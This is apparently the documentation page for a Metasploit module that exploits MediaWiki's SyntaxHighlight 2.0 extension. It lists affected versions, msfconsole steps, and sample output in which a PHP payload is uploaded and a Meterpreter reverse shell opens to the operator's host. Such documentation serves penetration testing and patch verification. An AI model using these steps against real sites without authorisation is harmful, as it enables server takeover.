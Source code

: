 ## Vulnerable Application

  Any MediaWiki installation with SyntaxHighlight version 2.0 installed & enabled. This extension ships with the AIO package of MediaWiki 1.27.x & 1.28.x. This issue was supposed to be fixed in MediaWiki version 1.28.1 and version 1.27.2. It appears that the fix was pushed to the git repository, but for some reason it was not included in the release packages.

## Verification Steps

  1. `use exploit/multi/http/mediawiki_syntaxhighlight`
  2. `set RHOST <ip target site>`
  3. `set TARGETURI <MediaWiki path>`
  4. `set UPLOADPATH <writable path in web root>`
  5. optionally set `RPORT`, `SSL`, and `VHOST`
  6. `exploit`
  7. **Verify** a new Meterpreter session is started

## Sample Output

```
msf > use exploit/multi/http/mediawiki_syntaxhighlight 
msf exploit(mediawiki_syntaxhighlight) > set RHOST 192.168.146.137
RHOST => 192.168.146.137
msf exploit(mediawiki_syntaxhighlight) > set TARGETURI /mediawiki
TARGETURI => /mediawiki
msf exploit(mediawiki_syntaxhighlight) > exploit

[*] Started reverse TCP handler on 192.168.146.197:4444 
[*] Local PHP file: images/bwpqtiqgmeydivskjcjltnldb.php
[*] Trying to run /mediawiki/images/bwpqtiqgmeydivskjcjltnldb.php
[*] Sending stage (33986 bytes) to 192.168.146.137
[*] Meterpreter session 1 opened (192.168.146.197:4444 -> 192.168.146.137:55768) at 2017-04-29 14:27:03 +0200
```